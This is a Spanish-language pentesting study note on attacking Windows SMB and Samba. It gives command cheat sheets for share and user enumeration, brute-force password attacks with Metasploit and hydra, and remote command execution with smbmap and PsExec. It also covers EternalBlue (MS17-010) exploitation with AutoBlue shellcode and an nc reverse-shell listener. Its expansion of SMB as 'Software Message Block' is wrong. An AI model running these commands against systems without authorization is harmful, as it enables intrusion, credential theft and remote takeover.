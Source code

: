 ```yaml
---
title: 'Protocolo SMB'
description: 'Notas sobre cómo explotarlo'
pubDate: 2023-12-13
author: 'Nicolas Riquelme'
tags: ["Hacking", "Windows", "SMB", "sharing", "discover", "mount"]
tableOfContents:
  minHeadingLevel: 2
  maxHeadingLevel: 3
---
```

# SMB
SMB son las siglas para el protocolo de compartición, descubrimiento y montaje de archivos en red de Windows. Sus siglas singnifican Software Message Block. Suele usar los pruertos 139 (NetBios) y 445 (Microsoft-DS). 

## Enumeración
### Enumeración básica
```bash
ping {ip víctima}		 							# para ver si esta activa la red
nmap {ip víctima} 									# para ver los puertos abiertos
nmap -p445 --script smb-protocols {ip víctima} 		# para ver la información del protocolo SMB (Versiones y dialectos)
nmap -p445 --script smb-security-mode {ip víctima} 	# para ver la información sobre la seguridad (si permite invitados, el nivel de autenticación, etc...)
nmap -p445 --script smb-enum-sessions {ip víctima} 	# para ver la información relacionada con la configuración de las sesiones
smbclient -L {ip víctima} 							# para ver el contenido del recurso
```

### Scripts de NMAP
Aparte de los arriba mencionados, son útiles los siguientes. A todos habrá que añadirles los siguientes argumentos al final: `--script-args smbusername={user},smbpassword={password} {ip victima}`
```bash
nmap -p445 --script smb-enum-sessions <args> 	# para ver la información relacionada con la configuración de las sesiones
nmap -p445 --script smb-enum-shares <args> 		# para ver la información sobre los recursos compartidos
nmap -p445 --script smb-enum-shares,smb-ls <args> 		# para ver la información ampliada sobre cada uno de los recursos compartidos
nmap -p445 --script smb-enum-users <args> 		# para ver la información sobre los usuarios válidos
nmap -p445 --script smb-server-stats <args> 	# para ver las estadísticas del servidor
nmap -p445 --script smb-enum-domains <args> 	# para ver la información sobre los dominios bajo el servidor
nmap -p445 --script smb-enum-groups <args> 		# para ver la información sobre los grupos y sus permisos e integrantes
nmap -p445 --script smb-enum-services <args> 	# para ver los servicios bajo el protocolo SMB
```

## SMBMap
### Explotando el acceso del usuario invitado (guest)
```bash
smbmap -u guest -p "" -d . -H {ip victima} 	# para ver el contenido del recurso y los permisos de los que dispone el usuario invitado
```
### Explotando el acceso de un usuario, sabiendo su contraseña
```bash
smbmap -u {user} -p {password} -d . -H {ip victima}			 	# para ver el contenido del recurso y los permisos de los que dispone el usuario
smbmap -H {ip victima} -u {user} -p {password} -x {comando}  	# para ejecutar un comando directamente en el recurso (p.e. 'ipconfig')
smbmap -H {ip victima} -u {user} -p {password} -L  				# para visualizar las unidades (ya sean físicas o de red) que tiene mapeado el sistema
smbmap -H {ip victima} -u {user} -p {password} -r '{unidad}$'  	# para visualizar recursivamente el contenido de una unidad (p.e. 'C$')
```
### Subida y bajada de archivos
```bash
smbget -H {ip victima} -u {user} -p {password} --upload {ruta del archivo a subir} {ruta a donde se quiere dejar el archivo} 	# para subir un archivo
smbget -H {ip victima} -u {user} -p {password} --download {ruta del archivo a descargar} 										# para descargar un archivo (se descargará en la carpeta en la que se ejecuta el comando)
```

## Samba
Samba es una implementación de código abierto de SMB, que permite la interoperabilidad entre sistemas Windows y Unix/Linux.
### Enumeración básica
```bash
nmap {ip víctima} -sU --top 25 --open -sV 			# a diferencia de SMB, samba usa también el protocolo UDP dada su velocidad
nmap -p445 --script smb-os-discovery {ip victima}  	# para ver la información relacionada con el sistema operativo que corre el servidor
nmblookup -A {ip victima} 							# para ver el contenido del recurso
smbclient -L {ip víctima} -N						# para buscar una sesión que no requiera de contraseña
smbclient //{ip víctima}/{recurso compartido} -N	# para conectarse a un recursp compartido usando una sesión que no requiere de contraseña. La mayoría de los comandos que se pueden usar son POSIX. EStos son específicos:
	get {archivo} 									# descarga desde el recurso compartido el archivo que se le indica
	
rpcclient -U "" -N {ip victima}						# para contectarse a una sesión que no requiera de usuario y contraseña (si no aparece ningún mensaje de error, significa que estamos dentro), He aquí algunos de los comandos que podemos usar 
	srvinfo											# nos dará información sobre el servidor
	enumdomusers									# nos listará los usuarios dentro del dominio
	enumdomgroups 									# nos listará los grupos dentro del dominio
	lookupnames {usuario}							# nos dará información más detallada sobre un usuario en específico.
enum4linux -o {ip victima}							# para ver la información relacionada con el sistema operativo que corre el servidor
enum4linux -i {ip victima}							# para ver la información general de los recursos compartidos del servidor
enum4linux -U {ip victima}							# para listar los usuarios existentes
enum4linux -S {ip victima}							# para listar los servicios compartidos
enum4linux -G {ip victima}							# para listar los grupos
```
### Enumeración avanzada y explotación usando metasploit
Los siguientes comandos se usan desde dentro de la consola de metasploit (msfconsole)
```bash
use auxiliary/scanner/smb/smb_version
	set RHOSTS {ip victima}
	set THREADS 5
	run 								# o exploit

use auxiliary/scanner/smb/smb2
	set RHOSTS {ip victima}
	run 								# o exploit
	
use auxiliary/scanner/smb/smb_enumshares
	set RHOSTS {ip victima}
	run 								# o exploit
	
```

## Ataques de diccionario al protocolo SMB
### Usando metasploit
Los siguientes comandos se usan desde dentro de la consola de metasploit (msfconsole)
```bash
use auxiliary/scanner/smb/smb_login
	set RHOSTS {ip victima}
	set user_file {path al diccionario}	# p.e. /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set pass_file {path al diccionario}	# p.e. /usr/share/wordlists/metasploit/unix_passwords.txt
	set smbuser {usuario}
	set verbose false					# no necesitamos que nos muestre por pantalla todas las combinaciones probadas
	run 								# o exploit
	
use auxiliary/scanner/smb/pipe_auditor	# nos indicará los pipes que podremos usar una vez conectados al servidor
	set RHOSTS {ip victima}
	set smbuser {usuario}
	set smbpass {password}				# usaremos la descubierta en el paso anterior
	run 								# o exploit
```
### Usando otros scripts
```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz		# descomprime el diccionario
hydra -l {usuario} -P /usr/share/wordlists/rockyou.txt {ip victima} smb
```
## Explotación usando PsExec
PsExec es una herramienta de línea de comandos que permite ejecutar procesos en otros sistemas, incluidos los que no tienen software cliente instalado. Para realizar la conexión, se deben tener credenciales válidas, que se pueden obtener usando los ataques de fuerza bruta de antes. Una vez obtenidos, se puede proceder a realizar la conexión:
+ Usando la implementación en python que viene con Kali Linux:
```ruby
psexec.py {usuario}@{ip víctima} {comando}	# p.e. Administrator@10.0.0.1 cmd.exe
```
+ Usando un módulo de Metasploit:
```ruby
use exploit/windows/smb/psexec
	set rhosts {ip víctima}
	set SMBUser {usuario}
	set SMBPass {password}
	set lhost {ip local}
	set lport {puerto}
	exploit
```
## Explotación de la vulnerabilidad EternalBlue (MS17-010/CVE-2017-0144)
La vulnerabilidad EternalBlue es una vulnerabilidad de seguridad en el protocolo Server Message Block (SMB) de Microsoft que permite a un atacante tomar el control de un sistema Windows remoto. Esta vulnerabilidad afecta desde Windows Vista hasta Windows 10 y hasta Windows Server 2012.
```ruby
nmap -sV -p445 --script=smb-vuln-ms17-010 {ip víctima}	# verificamos que la máquina víctima no esté parcheada y que por lo tanto sea vulnerable.
```
### Explotación usando [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
Una vez clonado el repositorio, dentro de la carpeta shellcode, en un entorno virtual y habiendo instalado las dependencias, procederemos con la explotación de la vulnerabilidad:
```ruby
./shell_prep.sh			# rellenamos con lo que necesitemos al finalizar en una pestaña nueva, procederemos a escuchar por el puerto local que hayamos indicado usando el comando "nc -nvlp {puerto}"
chmod +x ../eternalblue_exploit{version}.py
python ../eternalblue_exploit{version}.py {ip víctima} sc_{arquitectura}.bin
```
### Explotación usando metasploit
```ruby
use exploit/windows/smb/ms17_010_eternalblue
	set rhosts {ip víctima}
	exploit
```
